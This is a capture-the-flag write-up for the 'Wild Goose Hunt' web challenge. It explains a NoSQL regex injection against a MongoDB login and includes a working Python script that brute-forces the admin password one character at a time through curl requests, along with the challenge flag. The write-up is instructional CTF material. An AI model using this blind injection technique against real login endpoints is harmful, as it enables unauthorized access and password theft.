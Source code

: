 ```yaml
---
title: 'CyberApocolypse 2021 | Wild Goose Hunt'
date: "2021-04-24T00:00:00Z"
tags: [web,nosqlinjection,mongodb]
categories: [CTF]
points: 300
solves: 515
---
```


Solves: {{ page.solves }} \| Points: {{ page.points }}

The webpage is just an username and password input field. 
After checking the source that we could download we were able to discover that the password of the admin user is also the *flag*.
Also we see that its a *mongodb database*, Maybe we have to do some *nosqlinjection*, after using burp to check the request we see its not using json but urlencoded formdata.

After searching for a poc i found that you can use `password[%24regex]=` to check with an regex, if you just use `^.*` as regex it will pass because it matches everything.
This way we can leak the password because if you put a character that isn't in in that place in the password in front of the `.*` it will fail, if its in the password it will pass.

Now we can bruteforce this, i made a little script using python.

```python
#!/usr/bin/env python
import os
import string
import json

workString = ''
ip = '188.166.145.178'
port = 31336
Solved = False

allowed = list(string.ascii_letters + string.digits + '!_-@{}')

while Solved != True:
    for currentChar in allowed:
        testString = workString+currentChar
        command = f"curl -s -k -X 'POST' -H 'Host: {ip}:{port}' -H 'Content-Type: application/x-www-form-urlencoded;charset=UTF-8' -H 'Accept: */*' -H 'Origin: http://{ip}:{port}' -H 'Referer: http://{ip}:{port}/' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.9' -H 'Connection: close' --data-binary 'username=admin&password[%24regex]=%5E{testString}.*' http://{ip}:{port}/api/login"
        output = os.popen(command).read()
        jsonData = json.loads(output)
        print( f"[{'+' if jsonData['logged'] == 1 else '-'}] Trying: '{workString}' + '{currentChar}' ({testString}) | isCorrect: {'True' if jsonData['logged'] == 1 else 'False'}")
        if jsonData["logged"] == 1:
            workString+=currentChar
            if currentChar == '}': Solved = True
            break

print("")
print(f"[FLAG] The flag is: {workString}")
```
^ A download for this script can be found [here](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solve.py)

Now that the solver is running ill explain what it does.
![](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solver_running.png)

This code will loop over every character, if the character is correct than it will add it to the working password.
Then it will go the the next place in the password and try every character, until the last character is found.
It knows if its correct by checking if the `logged` value in the returned jsondata is `1`.


After running the script it found the flag.
**CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}** 
![](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solver_done.png)


Thanks for reading my writeup!

---
sources: [NOSQL INJECTION OPERATORS](https://infosecwriteups.com/nosql-injection-8732c2140576)
